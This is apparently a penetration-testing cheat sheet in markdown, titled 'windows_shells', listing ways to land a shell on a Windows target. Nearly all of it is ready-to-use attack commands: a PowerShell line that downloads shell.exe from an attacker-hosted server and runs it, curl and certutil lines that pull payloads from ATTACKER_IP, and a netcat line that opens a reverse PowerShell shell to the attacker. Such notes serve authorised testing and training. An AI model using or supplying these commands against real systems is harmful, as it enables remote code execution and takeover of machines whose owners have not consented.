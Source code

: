 # windows_shells


## serving files to windows

> invoke web request is simliar to curl; shell is being hosted on attacker with python3
```powershell
Invoke-WebRequest -Uri http://<LHOST>:8000/shell.exe -OutFile ./shell.exe && .\shell.exe
```

> Alternatively serve the shell with python on host and pull with curl/certutil on the target
```sh
curl http://ATTACKER_IP/reverse.exe -o "FULL_PATH"
certutil -urlcache -f http://ATTACKER_IP/FILE_TO_DOWNLOAD
```


## netcat
> nc traditional
```sh
nc ATTACKER_IP ATTACKER PORT -e powershell                      ; works just like other shells
```

